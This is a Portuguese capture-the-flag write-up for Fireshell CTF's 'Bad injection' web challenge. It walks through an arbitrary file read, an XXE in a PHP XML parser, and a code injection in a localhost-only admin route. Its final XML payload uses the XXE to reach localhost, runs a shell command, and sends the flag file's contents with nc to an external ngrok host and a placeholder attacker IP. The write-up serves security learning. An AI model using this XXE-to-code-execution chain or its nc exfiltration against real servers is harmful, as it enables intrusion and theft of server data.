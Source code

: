 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](https://i.imgur.com/vtZ1BiQ.png)

Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.

Analisando a source desta página, é possível ver uma passagem de parâmetros:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploração

Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

E o arquivo **Custom.php** em **/app/Controllers/** .

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


Utilizando do XXE, também podemos retornar arquivos do servidor.

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.

Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


que nos dá uma clara injeção de código.

---
Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.

o árduo payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'0.tcp.ngrok.io'.chr(32).'12776'))">
    ]>
    <root><name>&xxe;</name></root>

* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a request.

a saída:

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.


* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)